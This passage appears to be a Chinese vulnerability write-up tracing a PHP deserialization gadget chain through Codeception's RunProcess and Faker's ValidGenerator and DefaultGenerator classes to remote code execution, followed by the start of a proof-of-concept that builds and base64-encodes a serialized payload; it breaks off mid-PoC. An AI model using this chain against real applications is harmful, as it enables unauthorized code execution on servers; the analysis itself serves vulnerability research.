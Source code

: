 这里会变量可控的`$this->processes`,那`$process`就可控

这样就可以去触发__call()方法

定位到vendor/fakerphp/faker/src/Faker/ValidGenerator.php

```
public function __call($name, $arguments)
    {
        $i = 0;

        do {
            $res = call_user_func_array([$this->generator, $name], $arguments);
            ++$i;

            if ($i > $this->maxRetries) {
                throw new \OverflowException(sprintf('Maximum retries of %d reached without finding a valid value', $this->maxRetries));
            }
        } while (!call_user_func($this->validator, $res));

        return $res;
    }
```

这里`$this->generator`可控,但是$name不可控,所以这里肯定没有办法进行RCE,不过可以去调用任意类的call方法,在我找这个call方法的时候找到了另外直接返回一个可控值的call方法

vendor/fakerphp/faker/src/Faker/DefaultGenerator.php

```
public function __call($method, $attributes)
    {
        return $this->default;
    }
}
```

这里的`$this->default`可控,那我完全可以自由控制`$res`的值

注意do-while循环也有一个call_user_func,并且`$this->validator`的值完全是可控的,而且我现在可以任意控制`$res`的值,那这里不就可以进行RCE了吗

## 漏洞复现

poc

```
<?php

namespace Codeception\Extension {

    use Faker\ValidGenerator;

    class RunProcess
    {
        private $processes = [];
        public function __construct()
        {
            $this->processes = ['T0WN' => new ValidGenerator()];
        }
    }
    echo base64_encode(serialize(new RunProcess()));
}

namespace Faker {
    class ValidGenerator
    {
        protected $generator;
```